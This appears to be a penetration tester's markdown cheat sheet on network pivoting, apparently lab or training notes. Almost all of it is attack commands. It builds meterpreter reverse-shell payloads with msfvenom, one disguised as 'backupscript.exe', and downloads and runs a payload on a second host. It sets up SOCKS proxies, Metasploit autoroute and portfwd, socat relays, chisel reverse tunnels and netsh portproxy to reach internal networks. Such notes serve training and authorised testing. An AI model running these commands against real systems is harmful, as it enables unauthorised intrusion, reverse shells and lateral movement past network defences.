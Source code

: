 # Pivoting

## Proxy SOCKS with SSH

```bash
$ ssh -D 9050 root@victime
$ tail /etc/proxychains.conf
...
[ProxyList]
socks4 	127.0.0.1 9050
$ sudo proxychains nmap -sT -F other_host
```

To be noted:
 - Only TCP Connect Scan is supported by proxychains (default with nmap)
 - sudo is mandatory (RAW socket by proxychains)

## Proxy SOCKS with MSF

### On attacker

```bash
$ msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=other_host -f elf -o reverse.bin LPORT=4444
$ scp reverse.bin root@victim:/tmp
$ ssh -D 9050 -R victim_other_ip:4444:0.0.0.0:8000 root@victim
$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
msf6 exploit(multi/handler) > run
```

### On victim

```bash
$ cp /tmp
$ python -m http.server 8765
```

### On other_host

```bash
$ wget http://victim_other_ip:8765/reverse.bin
$ chmod +x reverse.bin
$ ./reverse.bin
```

### Pivoting from Victim

#### Scanning network 

 * From bash: `for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done`
 * From MSF: `msf6 exploit(multi/handler) >  run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/24`

#### Nmap scan:

##### Open SOCKS Proxy

From MSF (outside session)
```
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
msf6 auxiliary(server/socks_proxy) > run
msf6 auxiliary(server/socks_proxy) > jobs
```

##### Routing to our VM

To tell our socks_proxy module to route all the traffic via our Meterpreter session, we can use the post/multi/manage/autoroute module.
Then, we route all traffic through proxychains.

Before autoroute on **Victim**:

```bash
$ route -n

```

From MSF (outside meterpreter session)
```
[msf](Jobs:1 Agents:1) auxiliary(server/socks_proxy) >> use post/multi/manage/autoroute
[msf](Jobs:1 Agents:1) post(multi/manage/autoroute) >> set SESSION 1
[msf](Jobs:1 Agents:1) post(multi/manage/autoroute) >> set SUBNET 172.16.5.0
[msf](Jobs:1 Agents:1) post(multi/manage/autoroute) >> run
```

After autoroute on **Victim**:
```bash
$ route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
0.0.0.0         10.129.0.1      0.0.0.0         UG    0      0        0 ens192
10.129.0.0      0.0.0.0         255.255.0.0     U     0      0        0 ens192
172.16.4.0      0.0.0.0         255.255.254.0   U     0      0        0 ens224
```

##### Nmap scan with proxychains

```bash
$ tail /etc/proxychains4.conf 
[ProxyList]
socks4 	127.0.0.1 9050
$ sudo proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```

#### Ports forwarding

##### Local => Victim => Other Host

Useful to interact with a local post and use local tools.

 * Listen to the port 3300 on **Attacker**
 * Forward all packets to **victim:8080**

From MSF (inside meterpreter session)
```
(Meterpreter 1)(/home/ubuntu) > portfwd add -l 3300 -p 8080 -r victim
```

Interact with service
```bash
$ curl http://localhost:8080/
```

##### Other Host => Victim => Local

Useful to get reverse shell to connect to local meterpreter

From MSF (inside meterpreter session)
```
(Meterpreter 1)(/home/ubuntu) > portfwd add -R -l 8081 -p 1234 -L Attacker
```

A server is started on **victim**:
```
$ netstat -antop | grep 1234
tcp6       0      0 :::1234                 :::*                    LISTEN      1784/backupjob       off (0.00/0/0)
```

On **Attacker**, craft reverse meterpreter which connect to **victim**, upload and execute it onn **other_host**
```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=victim -f exe -o backupscript.exe LPORT=1234
````

On **Attacker** :
```bash
$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8081
msf6 exploit(multi/handler) > run
```

## Port forwarding with SOCAT

### Local => Victim => Other Host

On **victim**:
```bash
$ socat TCP4-LISTEN:8080,fork TCP4:other_host:8443
$ netstat -antop | grep socat
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      4207/socat           off (0.00/0/0)
```

###  Other Host => Victim => Local

Reverse tunneling from other_host to attacker through victim

On **victim**:
```bash
$ socat TCP4-LISTEN:1234,fork TCP4:attacker:8081
$ netstat -antop | grep socat
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      4207/socat           off (0.00/0/0)
```

## Other tools

 - plink : `plink -ssh -D 9050 ubuntu@10.129.15.50`
 - sshuttle: `sudo sshuttle -r root@victim "subnet other host"/23 -v`
 - rpivot
 - DNS Tunneling: dnscat2
 - ICMP Tunneling: ptunnel-ng

### chisel

On **attacker**
```
$ chisel server -v --socks5 --reverse --port 5036
$ tail /etc/proxychains4.conf                        
[ProxyList]
socks5  127.0.0.1 5136
```

On **Victim**:
```bash
$ chisel client 172.22.0.36:5036 R:5136:socks
```

After connection from chisel **Victim**, on **attacker**:
```bash
$ sudo netstat -antop | grep chisel
tcp        0      0 127.0.0.1:5136          0.0.0.0:*               LISTEN      1449854/./chisel_1.  off (0.00/0/0)
```

**Port forwarding avec Chisel**:

On **attacker**: `$ chisel server -v --reverse --port 5036`
 
 - Local => Victim => Other Host : `./chisel client attacker:5036 :8003:Other_Host:8004`, server run on 8004 on **other host**, `curl victim:8003` on attacker
 - Local <= Victim => Other Host (defeat firewall) :  `./chisel client attacker:5036 R:8003:victim:8004`, other host connect on 8004, `curl 127.0.0.1:8003`on attacker
 - Other Host => Victim => Local : `./chisel client attacker:5036 :8003:victim:8004`, other host connect on 8004, `nc -lvnp 8003`on attacker

### netsh

On Windows **Victim**:
```
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
```
